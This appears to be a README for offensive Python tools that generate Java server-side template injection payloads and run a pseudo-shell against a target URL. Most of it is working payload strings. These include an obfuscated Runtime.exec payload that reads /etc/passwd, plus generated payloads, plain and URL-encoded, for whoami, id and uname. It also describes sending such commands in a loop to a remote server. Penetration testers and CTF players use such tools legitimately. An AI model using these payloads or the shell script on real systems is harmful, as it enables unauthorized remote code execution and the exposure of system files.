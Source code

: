 SSTI Payload Generator
======================
This generator is for a specific type of Java SSTI, inspired by the following [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java):

```*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}```

The string is converted into a decimal value and then concatenated together. This python script will automate that process within a interactive Cmd prompt.

#### Example 1:

```
> python3 ssti-payload.py
Command ==> whoami
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

Command ==> uname -a
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

#### Example 2 (url encoded):
```
> python3 ssti-payload.py -u
Command ==> whoami
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28119%29.concat%28T%28java.lang.Character%29.toString%28104%29%29.concat%28T%28java.lang.Character%29.toString%28111%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28105%29%29%29.getInputStream%28%29%29%7D

Command ==> id
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28105%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D

Command ==> uname -a
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28117%29.concat%28T%28java.lang.Character%29.toString%28110%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2845%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29%29.getInputStream%28%29%29%7D
```

SSTI Skeleton
=============

`ssti-skel.py` uses the `Cmd` library to create a looped command prompt. This directly takes input from the command line, encodes it appropriately, and sends it via `requests` to the target url (`-t`). 

If successful, the script will be a `pseudo-shell`, allowing for commands to be sent in real time. If at anytime a request fails, the script will quit.

This is a very specific usecase. But if it works, it works.

Example command:

```python3 ssti-skel.py -t 'https://example.com/path?param='```

Depending on the response, the `ssti=str(output).split('&#39;')[1].rstrip()` variable will probably have to be changed to suit the response. No clever logic was implemented for this :)


